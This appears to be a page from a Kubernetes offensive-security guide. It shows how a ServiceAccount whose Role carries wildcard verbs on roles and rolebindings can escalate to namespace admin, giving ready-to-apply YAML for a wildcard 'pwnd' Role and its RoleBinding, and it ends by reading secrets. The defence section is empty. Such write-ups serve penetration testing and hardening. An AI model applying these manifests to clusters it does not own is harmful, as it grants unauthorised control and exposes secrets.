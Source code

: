 # Cluster-admin binding


The `cluster-admin` ClusterRole is a default ClusterRole in Kubernetes. This is a super user that can perform any action on any resource in the cluster. Think of this as the root user of a cluster. If an attacker is somehow allowed the ability to apply RoleBindings or ClusterRoleBindings, they could escalate to `cluster-admin`. It's important to note that this is fairly unlikely to be a direct attack path due to the way Kubernetes handles RBAC.

![](../images/Pasted%20image%2020240331195049.png)

Kubernetes RBAC has an interesting way of [preventing privilege escalation](https://kubernetes.io/docs/reference/access-authn-authz/rbac/#privilege-escalation-prevention-and-bootstrapping). Essentially, you cannot create permissions that you do not already have unless you have the `escalate` verb RBAC for your Role or ClusterRole. You can see that even though this account is allowed to create roles, RBAC is not allowing me to create a role that doesn't have permissions my current role doesn't have.

![](../images/Pasted%20image%2020240331195103.png)

## Namespace Admin Privilege Escalation
Although RBAC does it's best to not allow privilege escalation, it can still be possible if the Role associated with a ServiceAccount has either the `escalate` verb or a `*` for the RoleBinding and Role resource. The following Role applied to a ServiceAccount will allow an attacker to gain full control over the namespace due to the `Role` and `RoleBinding` resources being granted the access to all the RBAC verbs (including `escalate`).
```yaml
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
  namespace: default
  name: pod-view
rules:
- apiGroups: [""]
  resources: ["pods"]
  verbs: ["create","get", "watch", "list"]
- apiGroups: ["*"]
  resources: ["roles"]
  verbs: ["*"]
- apiGroups: ["*"]
  resources: ["rolebindings"]
  verbs: ["*"]

```

The attack path for this is to create a new Role and Rolebinding and apply it to the ServiceAccount context we are operating under when inside pod.

The following Role named `pwnd` grants essentially admin powers over all resources in all apiGroups.
```yaml
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
  namespace: default 
  name: pwnd 
rules:
- apiGroups: ["*"]
  resources: ["*"]
  verbs: ["*"]
```

The following RoleBinding will bind the role `pwnd` to the ServiceAccount `pod-view`
```yaml
apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata:
  name: pwnd 
  namespace: default 
roleRef: # points to the Role
  apiGroup: rbac.authorization.k8s.io
  kind: Role
  name: pwnd # name of Role
subjects: # points to the ServiceAccount
- kind: ServiceAccount
  name: pod-view 
  namespace: default # ns of service account
```

Since we have a `*` in the RBAC permissions for roles and rolebindings, we can submit this Role and Rolebinding to the API server from the pod. After creating them, running `kubectl auth can-i --list` shows us that we are now essentially an admin within our namespace.

![](../images/Pasted%20image%2020240331195216.png)

To prove that we have further escalated our privileges, we can attempt to take an action we we previously were not able to take such as listing secrets in the namespace.

![](../images/Pasted%20image%2020240331195228.png)

# Defending
> Pull requests needed ❤️ 
